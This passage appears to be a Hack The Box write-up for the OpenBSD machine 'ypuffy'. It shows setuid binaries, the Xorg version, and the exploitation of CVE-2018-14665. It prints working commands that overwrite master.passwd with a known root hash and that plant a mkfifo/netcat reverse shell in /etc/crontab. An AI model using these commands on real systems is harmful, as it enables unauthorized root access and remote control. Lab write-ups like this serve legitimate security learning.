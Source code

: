 ```bash
/usr/local/libexec/dbus-daemon-launch-helper
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/usr/X11R6/bin/Xorg
/sbin/ping
/sbin/ping6
/sbin/shutdown
```

The xorg-x11-server package on the system suffers from a root privilege escalation vulnerability
(CVE-2018-14665). 

Also there are 2 exploits in exploit-db for a single CVE. Named `xorg-x11-server < 1.20.3 - Local Privilege Escalation` and `xorg-x11-server 1.20.3 - Privilege Escalation`.

If I check my `Xorg` version, it's `1.19.6` < 1.20.3.
```bash
ypuffy$ Xorg -version

X.Org X Server 1.19.6
Release Date: 2017-12-20
X Protocol Version 11, Revision 0
Build Operating System: OpenBSD 6.3 amd64
Current Operating System: OpenBSD ypuffy.hackthebox.htb 6.3 GENERIC#100 amd64
Build Date: 24 March 2018  02:38:24PM

Current version of pixman: 0.34.0
        Before reporting problems, check http://wiki.x.org
        to make sure that you have the latest version.
```

Using [https://www.exploit-db.com/exploits/45697](https://www.exploit-db.com/exploits/45697):

The exploit tries to overwrite data in `master.passwd` and change the password to `Password1`
```bash
Xorg -fp 'root:$2b$08$As7rA9IO2lsfSyb7OkESWueQFzgbDfCXw0JXjjYszKa8Aklt5RTSG:0:0:daemon:0:0:Charlie &:/root:/bin/ksh' -logfile master.passwd :1 &
```

I'll overwrite /etc/crontab and get a shell.
```bash
$ cd /etc
$ Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4444 > /tmp/f" -logfile crontab :1 &
$ cat /etc/crontab
[   668.598] (==) Automatically adding devices
[   668.598] (==) Automatically enabling devices
[   668.598] (==) Not automatically adding GPU devices
[   668.598] (==) Max clients allowed: 256, resource mask: 0x1fffff
[   668.598] (++) FontPath set to:
        * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4444 > /tmp/f
[   668.598] (==) ModulePath set to "/usr/X11R6/lib/modules"
[   668.598] (II) The server relies on wscons to provide the list of input devices.
        If no devices become available, reconfigure wscons or disable AutoAddDevices.
```
